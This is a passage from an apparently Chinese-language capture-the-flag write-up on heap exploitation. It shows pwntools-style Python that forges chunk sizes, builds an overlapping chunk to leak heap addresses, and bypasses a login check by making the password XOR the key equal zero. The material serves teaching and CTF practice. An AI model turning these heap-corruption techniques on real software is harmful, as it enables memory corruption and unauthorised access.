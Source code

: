 之后，我们就可以在overlap chunk中布置一个管理块，用于泄露堆地址。这里我选择构造overlap chunk的大小为0x70：

```python
    fake_size = 0x31^0x71
    login('a'*31, p8(fake_size)*8)

    add(b'a'*6, b'b'*8, b'1'*0x1ffffd0) #1

    gap = ord(":")^ord("b")
    add(b'a'*1, b'b'*8, b'c'*5+p8(gap)+b'c'+p8(gap)+b'c'*3) #2
    add(b'a'*6, b'b'*8, b'c'*0x16) #3: 布置2个0x30chunk，第一个用于构造overlap，第二个布置管理块用于泄露
    add(b'a'*6, b'b'*8, b'c'*0x6) #4
    add(b'a'*6, b'b'*8, b'c'*0x6) #5 gap
    add(b'a'*6, b'b'*8, p8(ord("b")^0x22)*0x416) #6: 为之后泄露libc用，先不用管
    add(b'a'*6, b'b'*8, b'c'*0x6) #7 gap

    dele(2)
    add(b'a'*1, b'b'*8, b'c') #8
    dele(8)

    add(b'a'*6, b'b'*8, b'1'*0x1ffffd0) #9 fake
```

![image-20250829153228](images/image-20250829153228.png)

```python
    dele(3) # 释放0x70 chunk和0x30 chunk
    dele(4) # 为0x70 chunk再准备一个管理块

    payload = b""
    payload += p64(0)*3 + p64(0x31)
    payload += p64(0)*5 + p64(0x31)
    payload += p32(0xa)
    payload = enc(payload, b"b"*8)
    add(b'a'*6, b'b'*8, payload) #10 -> 申请到0x70 chunk，note长度为0x55
    add(b'a'*6, b'b'*8, b'c'*0x6) #11
    dele(6)

    logout()
    login('a'*31, p8(0x22)*8) # 使password^key=0，绕过检查
    show(10)
    ru("\": ")
```